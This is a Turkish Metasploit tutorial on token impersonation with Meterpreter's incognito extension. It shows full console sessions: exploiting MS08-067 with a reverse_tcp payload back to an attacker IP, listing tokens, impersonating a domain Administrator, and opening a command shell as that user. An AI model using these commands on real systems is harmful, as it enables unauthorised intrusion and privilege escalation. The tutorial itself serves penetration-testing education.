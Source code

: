 ```yaml
---
draft: false

title:  'MSF Incognito'
date: '2017-06-05T13:24:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Bir sisteme giriş yaptığınızda, sistemde bulunan kullanıcılara ait\_token\_adı verilen izin ve yetkilendirme kuralları bulunur. Bu kurallar, web uygulamalarında kullanılan\_cookie\_denilen çerez dosyalarına benzer. Kullanıcı ağdaki bir servise (örn. Net drive) ilk bağlandığında kullanıcı adı ve parolasıyla oturum açar. Oturum açıldığında sistem bu kullanıcıya bir\_token\_tanımlar. Artık bilgisayar kapanana kadar tekrar tekrar parola girmeden, sistemde bulunan servisi kullanma imkanı olacaktır." 
 
url:  /tr/msf-incognito/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## Incognito Nedir?



Bir sisteme giriş yaptığınızda, sistemde bulunan kullanıcılara ait **token** adı verilen izin ve yetkilendirme kuralları bulunur. Bu kurallar, web uygulamalarında kullanılan **cookie** denilen çerez dosyalarına benzer. Kullanıcı ağdaki bir servise (örn. Net drive) ilk bağlandığında kullanıcı adı ve parolasıyla oturum açar. Oturum açıldığında sistem bu kullanıcıya bir **token** tanımlar. Artık bilgisayar kapanana kadar tekrar tekrar parola girmeden, sistemde bulunan servisi kullanma imkanı olacaktır.



Pentest işlemleri esnasında bu **token** ve yetkilerini ele geçirerek kullanmaya **incognito** işlemi denilmektedir. **token** izinleri, ikiye ayrılmaktadır. Bunlara **delegate** ve **impersonate** adı verilmektedir. Okuyucunun kafasının karışmaması için biz de İngilizce şekillerini kullanmaya devam edeceğiz.



Delegate: token izinleri beyan ediciler olarak kullanılır. Etkileşimli oturumlarda, örneğin uzak masaüstü bağlantıları tarzında işlemler için kullanılırlar.



Impersonate: token izinleri kişisel olarak üretilmiş izinlerdir ve etkileşim olmayan servisler için kullanılırlar. Örneğin bir ağ klasörüne bağlanmak gibi.


<!-- wp:quote -->
<blockquote class="wp-block-quote">
Dosya sunucuları bu token izinleri için çok zengin bir bilgi kaynağıdırlar.
</blockquote>
<!-- /wp:quote -->


Hedef sistemde bir token ele geçirdiğinizde, artık bir servise bağlanmak için o kullanıcının parolasını bilmeye gerek kalmaz çünkü yetkilendirme önceden yapılmıştır ve yetki kontrolü **token** iznine güvenilerek arka planda yapılır. Bir sistemde meterpreter shell açıldığında kullanılabilir durumda olan **token** listesi kontrol edilmelidir.



## Meterpreter Oturum Açalım



Aşağıdaki örnekte, öncelikle `ms08_067_netapi` modülü kullanılarak gerekli ayarlar yapılmakta ve bir oturum açılmaktadır.


```bash
msf **>** use exploit/windows/smb/ms08_067_netapi
msf exploit**(**ms08_067_netapi**)** **>** set RHOST 10.211.55.140
RHOST **=>** 10.211.55.140
msf exploit**(**ms08_067_netapi**)** **>** set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD **=>** windows/meterpreter/reverse_tcp
msf exploit**(**ms08_067_netapi**)** **>** set LHOST 10.211.55.162
LHOST **=>** 10.211.55.162
msf exploit**(**ms08_067_netapi**)** **>** set LANG english
LANG **=>** english
msf exploit**(**ms08_067_netapi**)** **>** show targets

Exploit targets:

   Id  Name                                               
   --  ----                                               
   0   Automatic Targeting                                
   1   Windows 2000 Universal                             
   2   Windows XP SP0/SP1 Universal                       
   3   Windows XP SP2 English **(**NX**)**                        
   4   Windows XP SP3 English **(**NX**)**                        
   5   Windows 2003 SP0 Universal                         
   6   Windows 2003 SP1 English **(**NO NX**)**                   
   7   Windows 2003 SP1 English **(**NX**)**                      
   8   Windows 2003 SP2 English **(**NO NX**)**                   
   9   Windows 2003 SP2 English **(**NX**)**                      
   10  Windows XP SP2 Arabic **(**NX**)**                         
   11  Windows XP SP2 Chinese - Traditional / Taiwan **(**NX**)** 


msf exploit**(**ms08_067_netapi**)** **>** set TARGET 8
target **=>** 8
msf exploit**(**ms08_067_netapi**)** **>** exploit

**[*********]** Handler binding to LHOST 0.0.0.0
**[*********]** Started reverse handler
**[*********]** Triggering the vulnerability...
**[*********]** Transmitting intermediate stager **for **over-sized stage...**(**191 bytes**)**
**[*********]** Sending stage **(**2650 bytes**)**
**[*********]** Sleeping before handling stage...
**[*********]** Uploading DLL **(**75787 bytes**)**...
**[*********]** Upload completed.
**[*********]** Meterpreter session 1 opened **(**10.211.55.162:4444 -> 10.211.55.140:1028**)**

meterpreter **>**
```



## Incognito Modülünü Yükleyelim



Meterpreter oturumu açmayı başardıktan sonra `incognito` modülünü kullanmamız gerekiyor. `Incognito` modülü, meterpreter e ait bir modül olduğundan `use incognito` komutuyla modülü aktif hale getiriyoruz. Ardından `help` komutunu verdiğinizde, `incognito` modülüne özel komutları görebiliriz.


```bash
meterpreter **>** use incognito
Loading extension incognito...success.
meterpreter **>** help

Incognito Commands
**==================**

    Command              Description                                             
    -------              -----------                                             
    add_group_user       Attempt to add a user to a global group with all tokens 
    add_localgroup_user  Attempt to add a user to a local group with all tokens  
    add_user             Attempt to add a user with all tokens                   
    impersonate_token    Impersonate specified token                             
    list_tokens          List tokens available under current user context        
    snarf_hashes         Snarf challenge/response hashes **for **every token         

meterpreter **>**
```



## Sistemdeki token Listesi



Meterpreter içerisinde `incognito` modülünü yükledikten sonra `list_tokens` komutuyla listeyi kontrol edelim. Listede bulunan bir takım **token** izinlerine Administrator kullanıcılarının bile erişimi olmayabilir. Bizim en fazla ilgileneceğimiz tür **SYSTEM** token izinleridir.


```bash
meterpreter **>** list_tokens -u

Delegation Tokens Available
**========================================**
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY ETWORK SERVICE
NT AUTHORITY\SYSTEM
SNEAKS.IN\Administrator

Impersonation Tokens Available
**========================================**
NT AUTHORITY\ANONYMOUS LOGON

meterpreter **>**
```



Yukarıda listede bulunan `SNEAKS.IN\Administrator` isimli token fark ettiyseniz **Delegation** listesinde bulunmaktadır. Bunu **Impersonation** haline getirerek kişiselleştirmeniz gerekmektedir. Bunun için `impersonate_token` komutunu kullanacağız. Komutu girerken iki adet `\\` işareti kullanmaya dikkat edin. Listede `\` tek olsa da komutu girerken iki adet girilmelidir.


```bash
meterpreter **>** impersonate_token SNEAKS.IN\\Administrator
**[**+] Delegation token available
**[**+] Successfully impersonated user SNEAKS.IN\Administrator
meterpreter **>** getuid
Server username: SNEAKS.IN\Administrator
meterpreter **>**
```



Komut başarıyla sonlandığında `getuid` komutuyla kullanıcı kimliğini kontrol ettiğimizde `Server username: SNEAKS.IN\Administrator` sonucu aldık.



## Yeni Kullacı ile Shell Açma



Meterpreter içerisinde `execute -f cmd.exe -i -t` komutu ile komut satırında oturum açalım ve `whoami` komutuyla Windows kullanıcı kimliğine bakalım. Burada `-i` seçeneği **interact*** yani etkileşimli, `-t` seçeneği ise yeni ele geçirdiğimiz `SNEAKS.IN\Administrator` token iznini kullanmayı ifade eder.


```bash
meterpreter **>** shell
Process 2804 created.
Channel 1 created.
Microsoft Windows XP **[**Version 5.1.2600]
**(**C**)** Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32> whoami
whoami
SNEAKS.IN\administrator

C:\WINDOWS\system32>
```



Kişisel bilgisayarlarda karşılaşabileceğiniz **token** izinlerine, sunucu bilgisayarlarda daha çok rast gelebilirsiniz. Sunucularda bir çok servis etkileşimli ve çok kullanıcılı olarak çalıştığından liste daha uzun olacaktır. Bunların arasından en çok yetkili **token** izinleri denemelisiniz.
